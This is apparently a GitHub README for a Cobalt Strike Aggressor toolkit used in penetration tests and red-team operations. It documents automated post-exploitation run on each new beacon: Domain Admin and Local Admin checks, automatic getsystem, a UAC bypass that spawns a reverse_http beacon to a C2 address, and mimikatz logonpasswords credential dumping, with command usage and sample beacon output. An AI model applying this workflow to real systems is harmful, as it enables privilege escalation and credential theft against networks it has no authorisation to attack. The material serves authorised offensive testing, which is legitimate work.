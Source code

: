 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## Work Conducted by:
- Alexander Rymdeko-Harvey [Twitter] @Killswitch-GUI -- [Web] CyberSydicates.com
- Brian R [Twitter] @brian_psu

## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:

1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```
## DA-Watch - Set of Commands

Developed by @britz to perform the same DA monitoring but using all Aggressor script to perform DA Group checks (OPSEC). This has a few commands and requires you to update the list of DA members. this can be done with a few commands and is very effective way of checking for DA without loading PowerShell. On Pen-test's its not a big problem but on a red team OP this may be a No-Go.

### Usage
 load up the script
```
aggressor> load DA-Watch.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/DA-Watch.cna
```
Run this command and it will populate the known DA list
```
shell net group /domain "Domain Admins"
```
### uaddDA - Command
Adds a user to the DA list
### uremDA - Command
Removes a user from the DA list
### ulistDA - Command
Prints a list of the current DA's to the Console
### uhookOn
Sets the hook to follow beacon output to "On". This will watch all output for Shell net group...
### uhookOff
Turns off the watch hook and set the follow beacon output to off.

### Credential Checks
Every time a Cred is added to the Cred data model a credential is checked against the known list of creds. If it matches it posts to the event log! 




